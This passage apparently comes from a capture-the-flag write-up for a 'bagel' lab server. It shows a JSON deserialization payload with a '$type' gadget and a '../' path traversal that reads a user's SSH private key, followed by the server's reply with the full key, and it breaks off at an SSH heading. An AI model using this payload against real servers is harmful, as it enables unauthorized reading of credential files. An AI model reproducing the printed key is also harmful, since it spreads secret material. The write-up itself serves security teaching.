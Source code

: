 
The process is running out of `/home/phil`.

Reading `/home/phil/.ssh/id_rsa` returns a private SSH key:

    
    
    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:24:32",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }
    

### SSH

A quick way to reform a key like this with `\n` in it is with `jq`:

    
    
